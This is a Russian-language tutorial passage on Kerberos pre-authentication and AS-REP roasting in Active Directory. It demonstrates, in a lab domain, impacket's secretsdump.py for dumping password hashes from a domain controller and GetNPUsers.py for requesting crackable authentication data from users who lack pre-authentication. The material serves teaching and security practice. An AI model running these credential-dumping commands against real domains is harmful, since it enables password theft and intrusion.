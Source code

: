 Во время предварительной аутентификации пользователь вводит свой пароль, хэш которого будет использоваться для шифрования метки времени (timestamp), а затем контроллер домена попытается расшифровать ее и подтвердить, что был использован правильный пароль. Далее будет выдан TGT пользователю для использования в будущей аутентификации вместе с ключом сессии, зашифрованным хэшом пароля пользователя. Если предварительная проверка подлинности отключена, злоумышленник может запросить данные проверки подлинности для любого пользователя, и контроллер домена вернет зашифрованный TGT хэшом пароля сервисной УЗ KRBTGT, а также сессионный ключ, который может быть взломан в автономном режиме.

Данную атаку можно реализовать, например, с помощью **impacket** (набор эксплуатационных скриптов на Python).

### Захожу на Kali для демонстрации secretsdump (позволяет сдампить хэши паролей пользователей с удаленного DC):

Ссылка для инсталяции: https://github.com/fortra/impacket

Далее **cd impacket/example** ⇒ **python3 secretsdump.py ‘CYBER-ED/administrator@192.168.10.200’**

После чего должны выгрузиться хэши:

![Untitled](images/Untitled%2021.png)

Теперь попробуем использовать **GetNPUsers.py (проверяет включена ли преаутнтификация у пользователей, можно использовать словарь)**:

**cd impacket/example** ⇒ **python3 GetNPUsers.py CYBER-ED/anton -request -no-pass -dc-ip 192.168.10.200**

![Untitled](images/Untitled%2022.png)
